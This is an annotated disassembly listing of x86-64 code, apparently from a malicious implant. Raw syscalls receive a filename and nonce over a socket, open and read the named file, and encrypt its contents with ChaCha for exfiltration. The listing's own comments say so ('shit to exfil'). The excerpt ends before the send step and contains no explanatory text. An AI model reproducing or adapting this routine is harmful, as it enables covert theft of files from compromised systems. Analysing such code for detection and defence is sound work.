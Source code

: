 ```asm
seg000:0000000000000DFD 16B0                lea     rsi, [rbp+nonce] ; nonce
seg000:0000000000000E04 16B0                push    2Dh ; '-'       ; recvfrom
seg000:0000000000000E06 16B8                pop     rax
seg000:0000000000000E07 16B0                mov     edi, ebx
seg000:0000000000000E09 16B0                push    0Ch
seg000:0000000000000E0B 16B8                pop     rdx
seg000:0000000000000E0C 16B0                xor     r10d, r10d
seg000:0000000000000E0F 16B0                xor     r8d, r8d
seg000:0000000000000E12 16B0                xor     r9d, r9d
seg000:0000000000000E15 16B0                syscall                 ; Low latency system call
seg000:0000000000000E17 16B0                lea     rsi, [rbp+exfil_namesize] ; len of the filename
seg000:0000000000000E1E     recvfrom
seg000:0000000000000E1E 16B0                push    2Dh ; '-'
seg000:0000000000000E20 16B8                pop     rax
seg000:0000000000000E21 16B0                mov     edi, ebx
seg000:0000000000000E23 16B0                push    4
seg000:0000000000000E25 16B8                pop     rdx
seg000:0000000000000E26 16B0                xor     r10d, r10d
seg000:0000000000000E29 16B0                xor     r8d, r8d
seg000:0000000000000E2C 16B0                xor     r9d, r9d
seg000:0000000000000E2F 16B0                syscall                 ; Low latency system call
seg000:0000000000000E31 16B0                lea     rsi, [rbp+exfil_filename] ; filename
seg000:0000000000000E38 16B0                push    2Dh ; '-'
seg000:0000000000000E3A 16B8                pop     rax
seg000:0000000000000E3B 16B0                mov     edi, ebx
seg000:0000000000000E3D 16B0                mov     edx, [rbp+exfil_namesize]
seg000:0000000000000E43 16B0                xor     r10d, r10d
seg000:0000000000000E46 16B0                xor     r8d, r8d
seg000:0000000000000E49 16B0                xor     r9d, r9d
seg000:0000000000000E4C 16B0                syscall                 ; Low latency system call
seg000:0000000000000E4E 16B0                movsxd  rax, eax
seg000:0000000000000E51 16B0                mov     [rbp+rax+exfil_filename], 0
seg000:0000000000000E59 16B0                lea     rdi, [rbp+exfil_filename] ; filename
seg000:0000000000000E60 16B0                push    2
seg000:0000000000000E62 16B8                pop     rax             ; open
seg000:0000000000000E63 16B0                xor     esi, esi
seg000:0000000000000E65 16B0                xor     edx, edx
seg000:0000000000000E67 16B0                syscall                 ; Low latency system call
seg000:0000000000000E69 16B0                mov     r12d, eax
seg000:0000000000000E6C 16B0                lea     rsi, [rbp+contents] ; working buf for the shit to exfil
seg000:0000000000000E73 16B0                xor     eax, eax        ; read
seg000:0000000000000E75 16B0                mov     edi, r12d
seg000:0000000000000E78 16B0                mov     edx, 80h
seg000:0000000000000E7D 16B0                syscall                 ; Low latency system call
seg000:0000000000000E7F 16B0                lea     rdi, [rbp+contents] ; strlen it
seg000:0000000000000E86 16B0                xor     al, al
seg000:0000000000000E88 16B0                xor     ecx, ecx
seg000:0000000000000E8A 16B0                dec     rcx
seg000:0000000000000E8D 16B0                repne scasb
seg000:0000000000000E8F 16B0                not     ecx
seg000:0000000000000E91 16B0                dec     ecx
seg000:0000000000000E93 16B0                mov     [rbp+mysize], ecx
seg000:0000000000000E99 16B0                lea     rax, [rbp+cipher] ; cipher
seg000:0000000000000EA0 16B0                lea     rdx, [rbp+key]  ; key
seg000:0000000000000EA7 16B0                lea     rcx, [rbp+nonce] ; nonce
seg000:0000000000000EAE 16B0                xor     r8d, r8d        ; ctr
seg000:0000000000000EB1 16B0                call    dochachashit    ; cipherment shit
seg000:0000000000000EB6 16B0                lea     rax, [rbp+cipher] ; a1
seg000:0000000000000EBD 16B0                lea     rdx, [rbp+contents] ; a3
seg000:0000000000000EC4 16B0                mov     ecx, [rbp+mysize] ; a2
seg000:0000000000000ECA 16B0                call    chacha          ; cipherment shit 2
seg000:0000000000000ECF 16B0                lea     rsi, [rbp+mysize]
```